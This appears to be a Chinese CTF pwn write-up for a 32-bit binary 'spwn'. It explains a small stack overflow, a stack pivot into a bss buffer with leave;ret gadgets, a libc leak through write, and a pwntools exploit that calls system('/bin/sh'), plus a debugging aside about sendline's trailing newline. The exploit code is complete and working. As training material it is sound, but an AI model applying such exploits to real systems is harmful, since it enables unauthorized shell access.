




## 0x001 程序分析

通过checksec查看程序开启的保护，可见程序开启了NX。



分析vul_function函数


该函数使用read接收两次输入，第一次输入是写入bss段的全局变量 **s** 中，写入最大长度为0x200，第二次输入是写入局部变量buf中，写入最大长度为0x20。

## 0x002 漏洞分析

由于局部变量buf距离EBP的长度为0x18，而可写入的最大长度为0x20，因此造成栈溢出漏洞。

## 0x003 漏洞利用

虽然存在栈溢出漏洞，但是由于溢出的长度不够，需要使用栈迁移来完成漏洞利用。该程序中没有提供system函数以及"/bin/sh"字符串，因此需要先泄露libc地址。

在全局变量 **s** 中写入重新规划好的栈空间，然后利用栈溢出，覆盖EBP指向 **s**，并且将返回地址覆盖为执行 **leave ; ret** 指令的地址，经过两次 **leave ; ret** 即可将栈空间转移到 **s** 中，并且修改EIP为 **write_plt**，来泄露libc。
```
payload = b"A" * 4 + p32(elf.plt["write"]) + p32(elf.symbols["main"]) + p32(1) + p32(elf.got["write"]) + p32(4)
p.recvuntil("What is your name?")
p.sendline(payload)

#填充     +     s地址      +      leave;ret指令地址
payload = b'A' * 24 + p32(0x0804A300) + p32(0x08048511)
p.recvuntil("What do you want to say?")
p.send(payload)

write_real_addr = u32(p.recv(4))
libcbase = write_real_addr - libc.symbols["write"]
system_addr = libcbase + libc.symbols["system"]
bin_sh_addr = libcbase + next(libc.search(b"/bin/sh"))
```

泄露成功后，程序重新回到main函数中，再次来到vul_function函数，通过输入重新规划 **s** 所指向的栈空间，将 **system** 的地址以及参数 **"/bin/sh"** 写入栈中。
```
payload = b"A" * 4 + p32(system_addr) + p32(elf.symbols["main"]) + p32(bin_sh_addr)
p.recvuntil("What is your name?")
p.sendline(payload)

payload = b'A' * 24 + p32(0x0804A300) + p32(0x08048511)
p.recvuntil("What do you want to say?")
p.sendline(payload)
```

最后利用栈溢出，覆盖EBP指向 **s**，并且将返回地址覆盖为执行 **leave ; ret** 指令的地址，经过修改即可将EIP改为 **system** 的地址，执行 **system("/bin/sh")** 指令，获取系统权限。

最终EXP如下：
```
from pwn import *

p = process("./spwn")
elf = ELF("spwn")
libc = ELF("libc.so")

payload = b"A" * 4 + p32(elf.plt["write"]) + p32(elf.symbols["main"]) + p32(1) + p32(elf.got["write"]) + p32(4)
p.recvuntil("What is your name?")
p.sendline(payload)

payload = b'A' * 24 + p32(0x0804A300) + p32(0x08048511)
p.recvuntil("What do you want to say?")
p.send(payload)

write_real_addr = u32(p.recv(4))
libcbase = write_real_addr - libc.symbols["write"]
system_addr = libcbase + libc.symbols["system"]
bin_sh_addr = libcbase + next(libc.search(b"/bin/sh"))

payload = b"A" * 4 + p32(system_addr) + p32(elf.symbols["main"]) + p32(bin_sh_addr)
p.recvuntil("What is your name?")
p.sendline(payload)

payload = b'A' * 24 + p32(0x0804A300) + p32(0x08048511)
p.recvuntil("What do you want to say?")
p.sendline(payload)

p.interactive()
```

## 0x004 小插曲

事情是这样的，这道题总共有四个输入的地方，程序中是由read来接受输入，本来我的程序是这么写的



可是运行后怎么都不对，心态炸了。。。。

通过调试发现，是第二次往 **s** 里写数据是有了问题



正常来说应该是这样的



对比来看是因为多往里写了一个 **0x0a** ？？？？这个 **0x0a** 是哪来的？

这就要从read、send和sendline这三个函数说起了。

read函数是可以指定长度接收输入，如果输入的长度没到指定长度，则需要使用回车确认输入，这样经过read输入后，字符串是以 **0x0a** 结尾的。如果输入的长度刚好等于指定长度，那么使用回车确认输入后就会将 **0x0a** 保存到下一个地址，也就是会比指定的长度多一个字节出来。

如果程序中有两个挨着的read，在第一次read接收输入时，输入的长度大于指定长度，那么多余的部分就会等到第二次read时读取。比如，有代码如下：
```
read(0, buf1, 10);
read(0, buf2, 10);
```

当运行到第一个read时，输入"AAAAAAAAAABBBBB"，那么此时buf1中读取到的内容就是"AAAAAAAAAA"，而buf2读取到的内容就是"BBBBB\x0a"，不需要再次输入。

那么此时回到上面的问题就好理解了，由于send是发送数据，sendline是发送数据+'\n'，sendline比send多一个回车。当第二次输入时，输入的长度刚好是程序中read指定的长度，使用sendline时，就会多出来一个'\n'，这个'\n'就会等到第三次read时获取到，也就是上图中多出来的那个 **0x0a**。